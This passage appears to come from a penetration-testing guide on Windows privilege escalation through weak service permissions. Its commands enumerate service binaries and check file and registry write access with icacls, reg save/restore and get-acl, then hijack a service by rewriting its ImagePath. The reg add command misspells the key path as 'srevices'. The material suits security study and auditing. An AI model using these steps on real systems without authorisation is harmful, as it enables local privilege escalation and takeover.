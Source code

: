 **Check if you can modify the binary that is executed by a service** or if you have **write permissions on the folder** where the binary is located ([**DLL Hijacking**](dll-hijacking.md))**.**\
****You can get every binary that is executed by a service using **wmic** (not in system32) and check your permissions using **icacls**:

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use **sc** and **icacls**:

```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

### Services registry modify permissions

You should check if you can modify any service registry.\
You can **check** your **permissions** over a service **registry** doing:

```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### Services registry AppendData/AddSubdirectory permissions

If you have this permission over a registry this means to **you can create sub registries from this one**. In case of Windows services this is **enough to execute arbitrary code:**

- [appenddata-addsubdirectory-permission-over-service-registry.md](appenddata-addsubdirectory-permission-over-service-registry.md)
